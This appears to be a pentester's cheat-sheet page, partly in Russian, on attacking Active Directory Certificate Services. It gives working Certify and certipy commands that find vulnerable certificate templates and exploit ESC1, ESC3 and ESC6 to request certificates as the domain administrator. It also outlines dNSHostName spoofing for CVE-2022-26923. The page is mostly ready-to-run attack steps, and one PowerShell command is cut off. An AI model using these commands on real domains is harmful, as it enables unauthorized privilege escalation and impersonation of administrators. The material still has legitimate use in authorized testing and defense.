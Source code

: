 # AD CS

{% embed url="https://xakep.ru/2022/10/14/active-directory-privesc/" %}

<figure><img src="../../../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

To **find vulnerable certificate templates** you can run:

```bash
Certify.exe find /vulnerable
certipy find -username john@corp.local -password Passw0rd -dc-ip 172.16.126.128

# quickly spot vulnerable elements
certipy find -u 'user@domain.local' -p 'password' -dc-ip 'DC_IP' -vulnerable -stdout
```

### IF SSL ERROR

`-scheme ldap`



Шаб­лоны сер­тифика­тов хра­нят­ся в сле­дующем кон­тей­нере:

`CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=contoso,DC=com`

Со­ответс­твен­но, получить шаб­лоны мож­но при помощи сле­дующей коман­ды PowerShell, исполь­зуя модуль AD:

`PS > Get-ADObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=`



### Certipy + BH

```bash
wget -O ~/.config/bloodhound/customqueries.json https://raw.githubusercontent.com/ly4k/Certipy/main/customqueries.json
```

```bash
$ certipy find 'contoso.com/Kent.Jill:P@ssw0rd'@DC01.contoso.com
```



### Modifiable SAN. ESC1

Это ата­ка осно­выва­ется на изме­нении парамет­ра SAN, который поз­воля­ет ука­зать аль­тер­натив­ное имя поль­зовате­ля. Это поз­волит нам выпус­тить сер­тификат на дру­гого поль­зовате­ля, даже адми­нис­тра­тора домена. Что­бы ата­ка прош­ла успешно, шаб­лон сер­тифика­та дол­жен иметь уста­нов­ленный флаг `ENROLLEE_SUPPLIES_SUBJECT`.

```bash
$ certipy req 'contoso.com/Kent.Jill:P@ssw0rd'@DC01.contoso.com -dc-ip 10.11.1.184 -ca CA-contoso -template "1" -alt "administrator@contoso.com"
```



### Any or None Purpose Attack. ESC2

Ес­ли в шаб­лоне сер­тифика­та ука­зан EKU любого наз­начения или вооб­ще отсутс­тву­ет EKU, сер­тификат мож­но исполь­зовать для чего угод­но. Им мож­но зло­упот­реблять, как ESC3, нап­ример исполь­зовать сер­тификат в качес­тве тре­бова­ния для зап­роса дру­гого сер­тифика­та от име­ни любого поль­зовате­ля.



### Enrollment Agent. ESC3

В [до­кумен­тации Microsoft](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-cersod/97f47d4c-2901-41fa-9616-96b94e1b5435) ука­зано, что EKU Certificate Request Agent может исполь­зовать­ся, что­бы выдать себя за дру­гого поль­зовате­ля, и поз­воля­ет выпус­тить сер­тификат, который может быть исполь­зован для сов­мес­тной под­писи зап­росов от име­ни любого поль­зовате­ля для любого шаб­лона.

```bash
$ certipy req 'contoso.com/Kent.Jill:P@ssw0rd'@DC01.contoso.com -ca CA-contoso -template Agent
```

Пос­ле того как мы получи­ли обыч­ного поль­зовате­ля, зап­росим сер­тификат, пред­ста­вив­шись дру­гим поль­зовате­лем.

```bash
$ certipy req 'contoso.com/Kent.Jill:P@ssw0rd'@DC01.contoso.com -ca CA-contoso -template User -on-behalf-of 'contoso\Administrator' -pfx kent.jill.pfx
```



### **(EDITF\_ATTRIBUTESUBJECTALTNAME2). ESC6**

`EDITF_ATTRIBUTESUBJECTALTNAME2` Этот флаг поз­воля­ет ука­зать про­изволь­ный SAN (Subject Alternative Name) для всех сер­тифика­тов, нес­мотря на кон­фигура­цию шаб­лона сер­тифика­та.

```bash
$ certipy req 'contoso.com/Kent.Jill:P@ssw0rd'@DC01.contoso.com -template <Любой шаблон> -ca CA-contoso -alt administrator@contoso.com
```



### dNSHostName Spoofing

Пол­ный флоу ата­ки выг­лядит сле­дующим обра­зом:

1. Соз­дание компь­юте­ра в домене с `dNSHostName`, соот­ветс­тву­ющим DNS-име­ни кон­трол­лера домена.
2. За­мена SPN.
3. Зап­рос сер­тифика­та для компь­юте­ра.

**как про­верить, уяз­вим ли кон­трол­лер домена к CVE-2022-26923? Глав­ным приз­наком уяз­вимос­ти слу­жит наличие SID в отве­те на зап­рос сер­тифика­та. Если он есть — патч в сис­теме при­сутс­тву­ет, если нет, то пат­ча тоже нет.**
